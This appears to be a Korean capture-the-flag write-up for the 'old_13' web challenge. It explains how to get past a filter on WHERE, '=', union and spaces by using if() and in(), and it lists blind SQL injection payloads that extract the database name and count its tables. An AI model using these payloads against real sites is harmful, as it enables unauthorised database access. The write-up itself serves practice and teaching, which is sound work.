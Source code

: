 ## old_13



![chrome_KWeFLMHC9D](https://user-images.githubusercontent.com/79683414/145674374-a0c31535-c703-4994-afbb-19e9d0cff6f6.png)

<br>

필터링을 검사해본 결과 아래와 같이 필터링이 적용되어 있었다.

filter : union, #, *, limit, like, 논리/비교연산자, +, -, 공백문자, where ...etc

<br>

문제 풀이에 앞서 이번 문제에서 사용되는 Trick 을 먼저 살펴보자.

아래는 SQL 인젝션 문제에 통상적으로 이용되는 쿼리의 예이다.

__SELECT table_name FROM information_schema.tables WHERE table_schema="chall13";__

<br>

하지만 문제에서 `=, where` 를 필터링 하므로 위의 쿼리를 조금 변형해야 한다.

여기서 사용할 것은 if() 와 in() 이다.

- if(조건문, 참일 때 값, 거짓일 때 값)
- in(A,B,C...)

<br>

if 는 조건문에 따라 값을 반환한다.

in 은 조건문에서 사용되는 연산인데 아래의 예시를 보는 것이 빠르다.

```
...WHERE a=1 OR a=2

...WHERE a in (1,2)
```

<br>

if() 와 in() 을 사용하면 처음 쿼리의 `WHERE, =` 를 대체할 수 있다.

__SELECT table_name FROM information_schema.tables WHERE table_schema="chall13";__

`WHERE` 대체 :  SELECT __if(table_schema='chall13',table_name,0)__ FROM information_schema.tables;

`=` 대체 : SELECT if(__(table_schema)in('chall13')__,table_name,0) FROM information_schema.tables;

<br>

대체할 수 있다고 했지만 위 두 쿼리는 결과값이 살짝 다르다.

테스트를 위해 간단하게 테이블을 만들었다.

![vmware_BYjwKGLEiC](https://user-images.githubusercontent.com/79683414/145996161-8a75fea7-23d0-47b3-a3a5-35ec62a214d6.png)

<br>

LAB 데이터베이스안에 CHALL13 과 TEST 테이블이 존재한다.

결과값이 다르다고 언급했는데 위의 두 쿼리를 직접 입력해보자.















submit의 결과 값으로는 1, true 가 '1' 이고 나머지는 '0'이다.

![vmware_kUQHsFWxB1](https://user-images.githubusercontent.com/79683414/145983393-3231d240-6803-4458-9d3c-ecbd40305cb1.png)
![DXDm5ptq1m](https://user-images.githubusercontent.com/79683414/145983403-2ced1715-dde4-4a97-86d2-ff693d217614.png)
![7U1IYwMCkN](https://user-images.githubusercontent.com/79683414/145983408-e2fdcefd-3c61-476f-98ba-f7142e417ffc.png)
![mKnbjwMvDT](https://user-images.githubusercontent.com/79683414/145983415-e3532715-3926-405b-86cd-8e6196a8426a.png)

<br>



데이터 베이스명 알아내기(길이>1글자씩)

if(length(database())in(7),1,0)

if(substr(database(),1,1)in("c"),1,0) > 실패

if(ord(substr(database(),1,1))in(99),1,0)

if(ord(substr(database(),7,1))in(51),1,0)

chall13 = 99,104,97,108,108,49,51



테이블 개수

if((select(count(if((table_schema)in(database()),table_name,null)))from(information_schema.tables))in(2),1,0)
